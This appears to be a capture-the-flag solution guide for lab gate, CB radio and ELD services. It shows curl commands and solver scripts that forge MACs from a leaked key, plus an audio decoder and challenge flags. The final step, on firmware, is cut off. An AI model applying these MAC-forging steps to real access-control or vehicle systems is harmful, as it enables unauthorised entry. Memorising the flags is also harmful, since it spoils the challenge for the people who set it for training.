









# Up in Smoke

This guide provides the intended methodology for recovering custody of TRUCK-777.

## Question 1
***(Yard Gate) Download the `yard gate capture` and explore the `yard gate API` to complete a `valid custody closeout` for `TRUCK-777`. This will reveal `TOKEN1`.***

### Objective

Use the yard capture to recover the legacy vendor MAC material, then drive the live API through the required state transition:

```text
LOCKED -> CLOSED -> OPEN -> CLOSED
```

Once a session reaches `complete=true`, the status endpoint returns `TOKEN1`.

### Steps 

1. Let's download the capture from the GUI (website) or by downloading it directly: 

**Command**

```bash
curl -s -o t1_yard_traffic.pcap http://yard_gate.local:8080/yard/telemetry/capture
```



The service also publishes a lightweight API map. Navigate there using the following command and remember this data for later:

**Command**

```bash
curl -s http://yard_gate.local:8080/ | jq
```

**Output**

```jq
{
  "api": {
    "command": {
      "json": {
        "mac": "<hex_sha1_digest>",
        "session": "<session_id>",
        "trailer": "TRUCK-777"
      },
      "method": "POST",
      "path": "/yard/gate/command"
    },
    "create_session": {
      "method": "POST",
      "path": "/yard/gate/session"
    },
    "get_challenge": {
      "json": {
        "session": "<session_id>"
      },
      "method": "POST",
      "path": "/yard/gate/challenge"
    },
    "status": {
      "method": "GET",
      "path": "/yard/gate/status"
    }
  },
  "artifacts": {
    "capture": "/yard/telemetry/capture"
  },
  "notes": [
    "A valid custody closeout requires the same session to transition LOCKED -> CLOSED -> OPEN -> CLOSED.",
    "The MAC is computed over live session state, so simple packet replay will not succeed against a fresh session.",
    "The capture contains enough information to recover the legacy vendor MAC inputs."
  ],
  "service": "yard_gate",
  "trailer": "TRUCK-777"
}
```

2. Let's open the capture in `Wireshark`, right click any packet and choose `Follow` and then `UDP Stream`. You will find that the capture intentionally contains a leaked vendor key and a protocol note.



You should see something like this:

```text
YARD_CTRL: legacy vendor MAC is still enabledCTRL_NOTE: MAC=SHA1(KEY|TRAILER|NONCE|SESSION|STATE)LEAK:91ad2388fa01bc77TRAILER:TRUCK-777
```

Though concatenated, we find that we have three key pieces of information:
* A `MAC` formula - MAC=SHA1(KEY|TRAILER|NONCE|SESSION|STATE)
* A `LEAK` value/key - 91ad2388fa01bc77
* A `TRAILER` name - TRUCK-777

3. Looking back at the MAC formula, we're still missing some elements:
* `NONCE`
* `SESSION` 
* `STATE`

```text
CTRL_NOTE: MAC=SHA1(KEY|TRAILER|NONCE|SESSION|STATE)
```

4. Let's now create a session to capture the required `SESSION` value:

**Command**

```bash
curl -s -X POST http://yard_gate.local:8080/yard/gate/session | jq
```

**Output**

```json
{"session":"40642145"}
```



Now, save the returned `session` value.

5. Let's explore the API endpoint options. It appears one of them takes our `SESSION` value (/yard/gate/challenge). Let's submit our session value to the endpoint and see what happens:

**Command**

```bash
curl -s -X POST http://yard_gate.local:8080/yard/gate/challenge   -H 'Content-Type: application/json'   -d '{"session":"40642145"}' | jq
```

**Output**

```json
{"nonce":"c119d591"}
```



6. Finally, let's compute the first MAC for the `CLOSED` state. The first authenticated command is validated while the server-side state is still `CLOSED`.

**Script**

```bash
python3 - << 'PY'
import hashlib

key = bytes.fromhex("91ad2388fa01bc77")
trailer = "TRUCK-777"
nonce = "c119d591"
session = "40642145"
state = "CLOSED"

blob = key + trailer.encode() + nonce.encode() + session.encode() + state.encode()
print(hashlib.sha1(blob).hexdigest())
PY
```

**Output**

```bash
┌──(user㉿bca9bb1644be)-[~/Desktop/challenges/uis]
└─$ python3 - << 'PY'
import hashlib

key = bytes.fromhex("91ad2388fa01bc77")
trailer = "TRUCK-777"
nonce = "c119d591"
session = "40642145"
state = "CLOSED"

blob = key + trailer.encode() + nonce.encode() + session.encode() + state.encode()
print(hashlib.sha1(blob).hexdigest())
PY
eff327663b20f6017388896a8d218e2c6c810676
```

7. Let's go ahead and send the first command and transition the gate to `CLOSED`:

**Command Template**

```bash
curl -s -X POST http://yard_gate.local:8080/yard/gate/command   -H 'Content-Type: application/json'   -d '{"session":"b8f9dd6a","trailer":"TRUCK-777","mac":"<MAC_FOR_CLOSED>"}' | jq
```

**In Use**

```bash
curl -s -X POST http://yard_gate.local:8080/yard/gate/command   -H 'Content-Type: application/json'   -d '{"session":"40642145","trailer":"TRUCK-777","mac":"eff327663b20f6017388896a8d218e2c6c810676"}' | jq
```

**Output**

```json
{"ack":"CLOSED"}
```

8. Compute the second MAC for the `OPEN` state

The same session and same nonce are used again, but the server-side state is now `OPEN`.

**Command**

```bash
python3 - << 'PY'
import hashlib

key = bytes.fromhex("91ad2388fa01bc77")
trailer = "TRUCK-777"
nonce = "c119d591"
session = "40642145"
state = "OPEN"

blob = key + trailer.encode() + nonce.encode() + session.encode() + state.encode()
print(hashlib.sha1(blob).hexdigest())
PY
```

💡 Notice that we changed `CLOSED` to `OPEN` in the `state` parameter in compliance with the sequence required to complete this objective.

**Output**

```bash
┌──(user㉿bca9bb1644be)-[~/Desktop/challenges/uis]
└─$ python3 - << 'PY'    
import hashlib

key = bytes.fromhex("91ad2388fa01bc77")
trailer = "TRUCK-777"
nonce = "c119d591"
session = "40642145"
state = "OPEN"

blob = key + trailer.encode() + nonce.encode() + session.encode() + state.encode()
print(hashlib.sha1(blob).hexdigest())
PY
25a0c0056660ba3eda13dddee8d8658163a44b11
```

Let's go ahead and send the second command and transition the gate to `OPEN`:

**Command Template**

```bash
curl -s -X POST http://yard_gate.local:8080/yard/gate/command   -H 'Content-Type: application/json'   -d '{"session":"b8f9dd6a","trailer":"TRUCK-777","mac":"<MAC_FOR_OPEN>"}' | jq
```

**In Use**

```bash
curl -s -X POST http://yard_gate.local:8080/yard/gate/command   -H 'Content-Type: application/json'   -d '{"session":"40642145","trailer":"TRUCK-777","mac":"25a0c0056660ba3eda13dddee8d8658163a44b11"}' | jq
```

**Output**

```json
{"ack":"OPEN"}
```

9. Finally, send the final command and `CLOSE` the loop. Since we already know how to close the gate, we can just reuse the first command we created:

```bash
curl -s -X POST http://yard_gate.local:8080/yard/gate/command   -H 'Content-Type: application/json'   -d '{"session":"40642145","trailer":"TRUCK-777","mac":"eff327663b20f6017388896a8d218e2c6c810676"}' | jq
```

**Output**

```json
{"ack":"CLOSED"}
```

10. Now, retrieve `TOKEN1`:

```bash
curl -s http://yard_gate.local:8080/yard/gate/status | jq
```

Expected output:

```json
{
  "gate": "CLOSED",
  "clearance": "READY",
  "token": "PCCC{HEAVY-4774-1882}"
}
```

### Solver Script

The following script (present in the `solution/solvers` folder) automates this and tells challengers the actual commands that are run:

**Command**

```bash
python3 uis_token1_solver.py --pcap t1_yard_traffic.pcap 
```

**Code**

```python
#!/usr/bin/env python3
"""
Token 1 Solver (Yard Gate Control)

This script:
1. Extracts the leaked key and trailer from a local PCAP.
2. Creates a live session with the Yard Gate service.
3. Requests the challenge nonce.
4. Computes the vendor MAC exactly as the service does.
5. Sends the full LOCKED -> CLOSED -> OPEN -> CLOSED command chain.
6. Retrieves TOKEN1.

Usage:
    python3 uis_token1_solver.py
"""

import argparse
import hashlib
import re
from pathlib import Path

import requests

DEFAULT_BASE = "http://yard_gate.local:8080"
DEFAULT_PCAP = "t1_yard_traffic.pcap"

STATE_LOCKED = "LOCKED"
STATE_CLOSED = "CLOSED"
STATE_OPEN = "OPEN"


def extract_from_pcap(path):
    key = None
    trailer = None

    if not Path(path).exists():
        return None, None

    data = Path(path).read_bytes()

    k = re.search(rb"LEAK:([0-9a-fA-F]{16})", data)
    if k:
        key = k.group(1).decode()

    t = re.search(rb"TRAILER:([A-Z]+-\d{3})", data)
    if t:
        trailer = t.group(1).decode()

    return key, trailer


def mac_hex(key_hex, trailer, nonce, session, state):
    blob = (
        bytes.fromhex(key_hex)
        + trailer.encode()
        + nonce.encode()
        + session.encode()
        + state.encode()
    )
    return hashlib.sha1(blob).hexdigest()


def post_json(session, url, body):
    response = session.post(url, json=body, timeout=10)
    response.raise_for_status()
    return response


def get_json(session, url):
    response = session.get(url, timeout=10)
    response.raise_for_status()
    return response


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("--base-url", default=DEFAULT_BASE)
    parser.add_argument("--pcap", default=DEFAULT_PCAP)
    parser.add_argument("--key")
    parser.add_argument("--trailer")
    args = parser.parse_args()

    base = args.base_url.rstrip("/")

    key = args.key
    trailer = args.trailer

    if not key or not trailer:
        pcap_key, pcap_trailer = extract_from_pcap(args.pcap)
        key = key or pcap_key
        trailer = trailer or pcap_trailer

    if not key:
        raise SystemExit("Could not find leaked key. Provide --key or a valid PCAP.")
    if not trailer:
        raise SystemExit("Could not find trailer. Provide --trailer or a valid PCAP.")

    print("\n[+] Using parameters")
    print("key:", key)
    print("trailer:", trailer)

    http = requests.Session()

    print("\n[1] Create session")
    print(f"curl -s -X POST {base}/yard/gate/session")
    r = post_json(http, f"{base}/yard/gate/session", {})
    session_id = r.json()["session"]
    print("session =", session_id)

    print("\n[2] Request challenge nonce")
    print(
        f"""curl -s -X POST {base}/yard/gate/challenge \\
  -H 'Content-Type: application/json' \\
  -d '{{"session":"{session_id}"}}'"""
    )
    r = post_json(http, f"{base}/yard/gate/challenge", {"session": session_id})
    nonce = r.json()["nonce"]
    print("nonce =", nonce)

    steps = [
        (STATE_LOCKED, "CLOSE"),
        (STATE_CLOSED, "OPEN"),
        (STATE_OPEN, "CLOSE"),
    ]

    for idx, (state, label) in enumerate(steps, start=3):
        digest = mac_hex(key, trailer, nonce, session_id, state)
        print(f"\n[{idx}] {label} command using state={state}")
        print(
            f"""curl -s -X POST {base}/yard/gate/command \\
  -H 'Content-Type: application/json' \\
  -d '{{"session":"{session_id}","trailer":"{trailer}","mac":"{digest}"}}'"""
        )
        r = post_json(
            http,
            f"{base}/yard/gate/command",
            {"session": session_id, "trailer": trailer, "mac": digest},
        )
        print("ack =", r.json().get("ack"))

    print("\n[6] Check gate status")
    print(f"curl -s {base}/yard/gate/status | jq")
    r = get_json(http, f"{base}/yard/gate/status")
    print("\nServer response:")
    print(r.text)

    token = r.json().get("token")
    if token:
        print("\nTOKEN1 =", token)
    else:
        raise SystemExit("TOKEN1 was not returned. The closeout sequence did not complete.")


if __name__ == "__main__":
    main()
```

***Output**

```text
[+] Using parameters
key: 91ad2388fa01bc77
trailer: TRUCK-777

[1] Create session
curl -s -X POST http://yard_gate.local:8080/yard/gate/session
session = 2ede4d28

[2] Request challenge nonce
curl -s -X POST http://yard_gate.local:8080/yard/gate/challenge   -H 'Content-Type: application/json'   -d '{"session":"2ede4d28"}'
nonce = 11655835

[3] OPEN command
curl -s -X POST http://yard_gate.local:8080/yard/gate/command   -H 'Content-Type: application/json'   -d '{"session":"2ede4d28","trailer":"TRUCK-777","mac":"12d2e830e20617043d5fecfac53b01b520b3c4c1"}'

[4] CLOSE command
curl -s -X POST http://yard_gate.local:8080/yard/gate/command   -H 'Content-Type: application/json'   -d '{"session":"2ede4d28","trailer":"TRUCK-777","mac":"a50318dad4bb6992aa695184dea0bf7fc99e61fe"}'

[5] Check gate status
curl -s http://yard_gate.local:8080/yard/gate/status | jq

Server response:
{"clearance":"READY","gate":"CLOSED","token":"PCCC{HEAVY-4774-1882}"}


🏁 TOKEN1 = PCCC{HEAVY-4774-1882}
```

## Answer

The value of `token` is **TOKEN1**.

## Question 2
***(CBHUB) Download and decode the `CB handshake recording (.wav)` and use the recovered unlock code and unlock ELD maintenance with the required gate clearance to retrieve `TOKEN2`.***

### Steps

1. Let's download the capture from the GUI (website) or by downloading it directly: 

**Command**

```bash
curl -s -o handshake.wav http://cbhub.local:8080/recordings/handshake.wav
```

The protocol notes are available here:

```bash
curl -s http://cbhub.local:8080/docs/protocol
```



Here are some important details from the notes:

```text
- Preamble: 1500 Hz
- Frames: 40 ms tone + 10 ms silence
- Tone alphabet:
  700=A=0
  900=B=1
  1100=C=2
  1300=D=3
  1700=E=4
  1900=F=5
- Two base-6 digits form one base-36 character
- Final symbol is a checksum
```

2. Before scripting, let's visually confirm the audio structure. Open the WAV in a spectrogram viewer — `sox` is typically pre-installed on Kali and can generate one:

**Command**

```bash
sox handshake.wav -n spectrogram -o handshake_spectrogram.png
```

Open the resulting image. You should see:
- A brief silence (~120 ms lead-in)
- A long horizontal band at **1500 Hz** — this is the preamble (~520 ms)
- A short silence gap (~80 ms)
- A rapid sequence of short tones at varying frequencies — these are the data symbols



You can also inspect the tones interactively with `audacity` (typically pre-installed) by switching to **Spectrogram** view (click the track dropdown > Spectrogram). Each data tone is a ~40 ms burst at one of the six alphabet frequencies (700, 900, 1100, 1300, 1700, 1900 Hz) separated by ~10 ms gaps.

3. To decode manually, we need to identify each tone's frequency. A quick Python one-liner using `scipy` (available on Kali) can dump the dominant frequency per frame:

**Command**

```python
python3 - << 'PY'
import wave, struct, numpy as np
from scipy.signal import spectrogram

# Load the WAV
w = wave.open("handshake.wav", "rb")
fs = w.getframerate()
x = np.frombuffer(w.readframes(w.getnframes()), dtype=np.int16).astype(np.float32) / 32768.0
w.close()

# Compute spectrogram with 40ms windows (matching tone length)
nperseg = int(fs * 0.040)
f, t, Sxx = spectrogram(x, fs=fs, nperseg=nperseg, noverlap=0)

# For each time slice, find peak frequency
tones = {700:"A(0)", 900:"B(1)", 1100:"C(2)", 1300:"D(3)", 1500:"P", 1700:"E(4)", 1900:"F(5)"}
print(f"{'Time':>8s}  {'Freq':>6s}  Symbol")
print("-" * 30)
for i, ti in enumerate(t):
    peak_f = f[np.argmax(Sxx[:, i])]
    nearest = min(tones.keys(), key=lambda freq: abs(peak_f - freq))
    if abs(peak_f - nearest) <= 60:
        sym = tones[nearest]
    else:
        sym = f"?({peak_f:.0f})"
    # Only print non-silence frames
    if np.max(Sxx[:, i]) > 1e-4:
        print(f"{ti*1000:8.1f}ms  {peak_f:6.0f}Hz  {sym}")
PY
```

This prints a timestamped list of detected tones. You'll see:
- Several `P` (preamble) entries at 1500 Hz
- Then the data symbols (A through F)
- The last data symbol is the checksum (can be ignored)



4. To decode the symbols into the unlock code, pair up consecutive base-6 digits and convert to base-36:

```text
Example: symbols = E, F, C, D, D, E, ...
  Pair 1: E(4), F(5) -> 4*6 + 5 = 29 -> base-36[29] = 'T'
  Pair 2: C(2), D(3) -> 2*6 + 3 = 15 -> base-36[15] = 'F'
  ...continue for 24 data digits -> 12 character unlock code
```

The base-36 alphabet is `0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ` (0-indexed).

5. For automated solving, the script can be found in the `solution/solvers` folder as `uis_token2_eld_code.py`:

```python
#!/usr/bin/env python3
"""
uis_token2_eld_code.py

Robust decoder for the CB Hub handshake audio used to recover the
12-character ELD unlock code for Token 2.

What it does:
- Reads a WAV file (default: handshake.wav)
- Detects the tone sequence using FFT
- Removes silence markers and leading preamble tones
- Separates data digits from the final checksum digit
- Decodes 24 base-6 data digits into a 12-character base-36 unlock code
- Optionally validates the checksum

Usage:
    python3 uis_token2_eld_code.py handshake.wav
    python3 uis_token2_eld_code_fixed.py /path/to/handshake.wav --verbose
"""

from __future__ import annotations

import argparse
import sys
import wave
from pathlib import Path

import numpy as np

TONE_LEN_MS = 40
GAP_LEN_MS = 10

# Symbol tones from the challenge protocol
TONES = {
    700: "A",
    900: "B",
    1100: "C",
    1300: "D",
    1500: "P",  # preamble
    1700: "E",
    1900: "F",
}

ALPHABET = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
DIGIT = {"A": 0, "B": 1, "C": 2, "D": 3, "E": 4, "F": 5}


def checksum_digit(digits: list[int]) -> int:
    s = 0
    for i, d in enumerate(digits):
        s = (s + (d + 1) * (i + 3)) % 97
    return s % 6


def peak_frequency(seg: np.ndarray, fs: int) -> float:
    win = np.hanning(len(seg))
    spectrum = np.fft.rfft(seg * win)
    mags = np.abs(spectrum)

    if len(mags) <= 1:
        return 0.0

    k = int(np.argmax(mags[1:]) + 1)
    return k * fs / len(seg)


def load_wav(path: Path) -> tuple[np.ndarray, int]:
    with wave.open(str(path), "rb") as w:
        fs = w.getframerate()
        n = w.getnframes()
        channels = w.getnchannels()
        sample_width = w.getsampwidth()
        raw = w.readframes(n)

    if sample_width != 2:
        raise ValueError(f"expected 16-bit PCM WAV, got sample width {sample_width}")

    x = np.frombuffer(raw, dtype=np.int16).astype(np.float32)

    if channels > 1:
        x = x.reshape(-1, channels).mean(axis=1)

    x = x / 32768.0
    return x, fs


def decode_symbol_stream(x: np.ndarray, fs: int) -> tuple[str, int]:
    tone_len = int(fs * (TONE_LEN_MS / 1000.0))
    step = int(fs * ((TONE_LEN_MS + GAP_LEN_MS) / 1000.0))

    if tone_len <= 0 or step <= 0 or len(x) < tone_len:
        raise ValueError("audio too short to decode")

    best_score = -1
    best_offset = 0
    best_syms: list[str] = []

    for off in range(step):
        syms: list[str] = []
        score = 0
        nframes = (len(x) - off) // step

        for i in range(nframes):
            start = off + i * step
            seg = x[start : start + tone_len]
            if len(seg) < tone_len:
                break

            f = peak_frequency(seg, fs)
            nearest = min(TONES.keys(), key=lambda t: abs(f - t))

            if abs(f - nearest) <= 60:
                sym = TONES[nearest]
                syms.append(sym)
                score += 1
            else:
                syms.append("?")

        if score > best_score:
            best_score = score
            best_offset = off
            best_syms = syms

    return "".join(best_syms), best_offset


def extract_payload(seq: str) -> str:
    # Trim leading/trailing silence/unknown markers
    seq = seq.strip("?")

    # Remove leading preamble symbols
    i = 0
    while i < len(seq) and seq[i] == "P":
        i += 1

    payload = seq[i:]
    payload = payload.split("?")[0]

    # Keep only actual data symbols
    payload = "".join(c for c in payload if c in "ABCDEF")

    # Generator always emits exactly 25 payload digits:
    # 24 data digits + 1 checksum
    if len(payload) > 25:
        payload = payload[-25:]

    return payload

def decode_unlock_code(payload: str) -> tuple[str, int, int]:
    bad = [c for c in payload if c not in DIGIT]
    if bad:
        raise ValueError(f"payload contains unexpected symbols: {''.join(sorted(set(bad)))}")

    payload_digits = [DIGIT[c] for c in payload]

    if len(payload_digits) < 3:
        raise ValueError("payload too short to contain data plus checksum")

    check_digit = payload_digits[-1]
    data_digits = payload_digits[:-1]

    if len(data_digits) != 24:
        raise ValueError(
            f"expected 24 data digits for a 12-character code, got {len(data_digits)}"
        )

    if len(data_digits) % 2 != 0:
        raise ValueError(f"odd number of data digits recovered: {len(data_digits)}")

    pairs = [data_digits[i] * 6 + data_digits[i + 1] for i in range(0, len(data_digits), 2)]

    if any(p >= len(ALPHABET) for p in pairs):
        raise ValueError("decoded pair outside base-36 range")

    code = "".join(ALPHABET[p] for p in pairs)
    calc_check = checksum_digit(data_digits)
    return code, check_digit, calc_check


def main() -> int:
    parser = argparse.ArgumentParser()
    parser.add_argument("wav", nargs="?", default="handshake.wav", help="path to WAV file")
    parser.add_argument("--verbose", action="store_true", help="print intermediate decode details")
    args = parser.parse_args()

    wav_path = Path(args.wav)
    if not wav_path.exists():
        print(f"error: file not found: {wav_path}", file=sys.stderr)
        return 1

    try:
        x, fs = load_wav(wav_path)
        seq, offset = decode_symbol_stream(x, fs)
        payload = extract_payload(seq)
        code, seen_check, calc_check = decode_unlock_code(payload)
    except Exception as e:
        print(f"decode failed: {e}", file=sys.stderr)
        return 2

    if args.verbose:
        print(f"file: {wav_path}")
        print(f"sample_rate: {fs}")
        print(f"best_offset: {offset}")
        print(f"symbols: {seq}")
        print(f"payload: {payload}")
        print(f"checksum seen: {seen_check}")
        print(f"checksum calc: {calc_check}")
        print(f"checksum ok: {seen_check == calc_check}")

    print(f"UNLOCK CODE: {code}")
    return 0


if __name__ == "__main__":
    raise SystemExit(main())

```

The output is the instance-specific 12-character unlock code:

```bash
┌──(user㉿bca9bb1644be)-[~/Desktop/challenges/uis]
└─$ python3 uis_token2_eld_code.py                                                                                                                                         
UNLOCK CODE: M1VC2ZMD1UJT
```

3. Next, let's unlock ELD maintenance with the decoded code and TOKEN1:

**Command Template**

```bash
curl -s -X POST http://eld.local:8080/api/v1/unlock -H 'Content-Type: application/json' -d '{"code":"<DECODED_CODE>","gate_code":"<TOKEN1>"}' | jq
```

**Command**

```bash
curl -s -X POST http://eld.local:8080/api/v1/unlock  -H 'Content-Type: application/json' -d '{"code":"M1VC2ZMD1UJT","gate_code":"PCCC{HEAVY-4774-1882}"}' | jq
```

**Output**

```json
{
  "TOKEN2": "PCCC{RADIO-2259-2152}",
  "ok": true,
  "status": "maintenance_unlocked"
}
```



## Answer

The value of `TOKEN2` is the answer.

## Question 3
***Analyze the firmware snapshot, reproduce the `release` condition, and recover TOKEN3.***

### Steps

1. Let's download the firmware on the `dispatch` site or via this command:

**Command**

```bash
curl -s -o libboot.so http://eld.local:8080/firmware/libboot.so
```

2. Start with basic recon — look for interesting strings in the binary:

**Command**

```bash
strings -a libboot.so | grep -iE 'auth|ingest|unseal|boot|fuse|guard'
```

**Output**

```text
AUTH_UNSEALED
INGEST_OK
libboot.c
```

This tells us there's a success path (`AUTH_UNSEALED`) and a normal path (`INGEST_OK`). The goal is to trigger the `AUTH_UNSEALED` condition.

3. Next, scan the binary for recognizable magic constants. These are common in firmware that uses sentinel values for state checks:

**Command**

```bash
